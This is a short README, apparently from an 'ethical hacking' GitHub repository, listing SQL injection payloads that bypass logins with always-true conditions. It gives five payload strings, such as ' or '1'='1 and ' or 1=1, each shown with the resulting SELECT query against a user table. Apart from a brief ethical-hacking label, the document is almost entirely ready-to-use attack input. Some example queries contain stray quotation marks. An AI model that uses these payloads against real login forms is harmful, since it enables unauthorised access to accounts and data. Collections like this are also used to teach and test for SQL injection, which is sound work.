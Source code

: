 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

## Table of contents

1. [Bypass SQL Always True](#alwaystrue)
 
## Bypass SQL Always True <a name="alwaystrue"></a>

|PAYLOAD  | EXAMPLE QUERY |
|--|--|
| ```' or '1'='1``` |```SELECT * FROM user WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| ```' or username!=''``` |```SELECT * FROM user WHERE username = '' or username!='' AND password = '' or password!='';```|
| ```' or FALSE!=TRUE``` |```SELECT * FROM user WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| ```' or TRUE=TRUE``` |```SELECT * FROM user WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| ```' or 1=1``` |```SELECT * FROM user WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
